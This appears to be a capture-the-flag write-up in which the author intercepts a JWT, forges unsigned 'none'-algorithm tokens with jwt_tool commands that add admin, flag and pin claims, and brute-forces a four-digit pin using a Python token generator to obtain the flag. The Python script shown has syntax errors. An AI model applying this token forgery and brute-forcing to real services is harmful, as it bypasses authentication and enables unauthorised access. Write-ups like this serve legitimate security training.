 # you-can-trust-me

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/c967f94b-b723-48a1-a355-d2599293e575)

# Solution

Making a GET request on the provided target and intercepting with BurpSuite, we can see that the response gives us a JWT token:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/16c17d41-10ff-4c58-bc6e-fee47749d438)

Using that in our request, we can see a message:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/4a4cd9a0-52a4-47ad-8726-4a543709d6a5)

Decoding the token on [jwt.io](https://jwt.io/) we can see that it's a simple token with only one claim set to `user` with value being `anonymous`. The signing algorithm is set to `HS256`:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8a7bdb41-44c5-4bcf-9b90-9cfb996e4405)

We can use the [jwt_tool](https://github.com/ticarpi/jwt_tool) to try and tamper with it. A common misconfiguration is not verifying the token properly which could mean that we can remove the signature and set the algorithm to `None`:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0161d7cc-364c-448f-b292-d0ce68a1c147)

For example, we can use the syntax below to modify the `user` payload claim to another value, like admin:  

```bash
python3 jwt_tool.py -X a -I -pc user -pv admin eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYW5vbnltb3VzIn0.Xl5HeSFhyngGKrT3GfzS3MzUWiNJyYvTY74nVItbIG0
```
This doesn't seem to change the message we get, however we don't get an error complaining about the signature either. So we need to keep looking. Fuzzing the URL, we get a hit on `/docs`:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/46a97b88-faec-4be4-8999-c1fa7ed6ebcb)

In the swagger documentation, we get a helpful hint which makes us believe that we are missing something from our forged token:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2179a681-ca55-40de-bd13-07accb8ae3ac)

We adjust our syntax to include this payload claim as well:  
```bash
python3 jwt_tool.py -X a -I -pc user -pv admin -pc is_admin -pv true eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYW5vbnltb3VzIn0.Xl5HeSFhyngGKrT3GfzS3MzUWiNJyYvTY74nVItbIG0
```
Now we get a different error message but a helpful one:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/094a0a02-f070-415b-89a6-aacc534c667c)

Let's add the missing flag claim as well:  

```bash
python3 jwt_tool.py -X a -I -pc user -pv admin -pc is_admin -pv true -pc flag -pv true eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYW5vbnltb3VzIn0.Xl5HeSFhyngGKrT3GfzS3MzUWiNJyYvTY74nVItbIG0
```
We seem to be on the right track. We now get a different error complaining about a missing pin:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/4427fbd4-645c-4253-aa8b-acfc46d0520c)

We again adjust our token:  

```bash
python3 jwt_tool.py -X a -I -pc user -pv admin -pc is_admin -pv true -pc flag -pv true -pc pin -pv 1234 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYW5vbnltb3VzIn0.Xl5HeSFhyngGKrT3GfzS3MzUWiNJyYvTY74nVItbIG0
```
We are getting closer. We get a different error about the pin not being correct which would make sense:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/58e2dffc-0d9c-4216-bdd9-567348df55e9)

So far, our token looks something like this:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a64d6ee7-aabc-42d7-8a07-9362538cc300)

At this point, it was pretty obvious that we need to bruteforce the pin so I wrote this python script to generate a wordlist of jwt tokens containing all the 4 digit pins:  

```python3
import jwt

with open('wordlist.txt', 'a') as fp: 
    for i in range(9999):
        claims = {
            "user": "admin",
            "is_admin": true
            "flag": true
            "pin": i
        }

        token = jwt.encode(claims, key=None, algorithm="none")
        fp.write(token + '\n')
```
I gave the wordlist to BurpSuite Intruder, it can also be done with ffuf or other fuzzing tools, and shortly, on pin 7331 (1337 reversed) we get our flag:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/01e059c7-335f-4cbe-a16a-48abb86f1a83)

`CTF{2965f7e9fcc77fff2bd869db984df8371845d6781edb382cc34536904207a53d}`
